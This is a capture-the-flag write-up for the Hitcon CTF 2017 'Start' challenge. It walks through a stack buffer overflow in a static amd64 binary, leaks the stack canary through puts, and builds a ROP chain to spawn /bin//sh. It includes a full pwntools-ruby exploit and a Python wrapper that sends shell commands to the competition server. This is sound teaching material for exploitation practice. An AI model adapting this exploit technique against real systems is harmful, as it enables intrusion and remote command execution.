 ```yaml
---
layout: post
title: Hitcon CTF 2017 - Start
categories: ctf_hitcon2017
keywords: "exploitation"
comments: true
authors:
    - andreafioraldi
---
```


The given binary is static.

Checksec:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

The main procedure is so simple:

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-20h]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  alarm(10LL, argv, envp);
  setvbuf(stdin, 0LL, 2LL, 0LL);
  setvbuf(stdout, 0LL, 2LL, 0LL);
  while ( read(0LL, &v4, 217LL) != 0 && (unsigned int)strncmp(&v4, "exit\n", 5LL) )
    puts(&v4);
  return 0;
}
```

If we have a leak of the canary we can overwrite the return address with the buffer overflow.

Sending 24 characters and newline the puts call will print out the canary (overwriting the last byte, but it is always 0).

It's time to build a rop chain.

I used ROPGadget to generate it but it was too long.

So i changed the chain a bit:

```python
p += p64(0x00000000004017f7) # pop rsi ; ret
p += p64(0x00000000006cc080) # @ .data
p += p64(0x000000000047a6e6) # pop rax ; pop rdx ; pop rbx ; ret
p += '/bin//sh'
p += p64(0x4141414141414141) # padding
p += p64(0x4141414141414141) # padding
p += p64(0x0000000000475fc1) # mov qword ptr [rsi], rax ; ret
p += p64(0x00000000004017f7) # pop rsi ; ret
p += p64(0x00000000006cc088) # @ .data + 8
p += p64(0x000000000042732f) # xor rax, rax ; ret
p += p64(0x0000000000475fc1) # mov qword ptr [rsi], rax ; ret
p += p64(0x00000000004005d5) # pop rdi ; ret
p += p64(0x00000000006cc080) # @ .data
p += p64(0x00000000004017f7) # pop rsi ; ret
p += p64(0x00000000006cc088) # @ .data + 8
p += p64(0x0000000000443776) # pop rdx ; ret
p += p64(0x00000000006cc088) # @ .data + 8
p += p64(0x000000000042740e) # add eax, 0x1d ; ret
p += p64(0x000000000042740e) # add eax, 0x1d ; ret
p += p64(0x0000000000468320) # add rax, 1 ; ret
p += p64(0x0000000000468e75) # syscall ; ret
```

Ok now we must build the exploit using pwntools-ruby:

```ruby
z = Sock.new '127.0.0.1', 31338;

#canary leak
z.sendline "A"*24 ;
z.recvline;
r = z.recvline;
canary = "\x00" + r[0..6];

#build payload
p = "a"*24 + canary + p64(0x6cc018); #0x6cc018 id rbp
p += p64(0x00000000004017f7);
p += p64(0x00000000006cc080);
p += p64(0x000000000047a6e6);
p += '/bin//sh';
p += p64(0x4141414141414141);
p += p64(0x4141414141414141);
p += p64(0x0000000000475fc1);
p += p64(0x00000000004017f7);
p += p64(0x00000000006cc088);
p += p64(0x000000000042732f);
p += p64(0x0000000000475fc1);
p += p64(0x00000000004005d5);
p += p64(0x00000000006cc080);
p += p64(0x00000000004017f7);
p += p64(0x00000000006cc088);
p += p64(0x0000000000443776);
p += p64(0x00000000006cc088);
p += p64(0x000000000042740e);
p += p64(0x000000000042740e);
p += p64(0x0000000000468320);
p += p64(0x0000000000468e75);
z.send p;
z.recvline;
z.sendline "exit"; #go to 'ret'

#send command to the shell
z.sendline("uname -a");
print z.recv(5000)
```

After testing it in localhost with socat, i wrote a python script that I used to send the ruby exploit:

```python
from pwn import *

def run(cmd):
    expl = '''z = Sock.new '127.0.0.1', 31338;z.sendline "A"*24 ;r = z.recvline;r = z.recvline;canary = "\x00" + r[0..6];p = "a"*24 + canary + p64(0x6cc018) ;p += p64(0x00000000004017f7);p += p64(0x00000000006cc080);p += p64(0x000000000047a6e6);p += '/bin//sh';p += p64(0x4141414141414141);p += p64(0x4141414141414141);p += p64(0x0000000000475fc1);p += p64(0x00000000004017f7);p += p64(0x00000000006cc088);p += p64(0x000000000042732f);p += p64(0x0000000000475fc1);p += p64(0x00000000004005d5);p += p64(0x00000000006cc080);p += p64(0x00000000004017f7);p += p64(0x00000000006cc088);p += p64(0x0000000000443776);p += p64(0x00000000006cc088);p += p64(0x000000000042740e);p += p64(0x000000000042740e);p += p64(0x0000000000468320);p += p64(0x0000000000468e75);z.send p;z.recvline;z.sendline "exit"; z.sendline("''' + cmd + '''"); print z.recv(5000)'''

    sh = remote("54.65.72.116", 31337)
    sh.recvuntil("> ")
    sh.sendline(expl)
    print sh.recvall()


c = raw_input("> ")
while c != "q":
    run(c)
    c = raw_input("> ")
```

Now you can navigate the filesystem and get the flag.

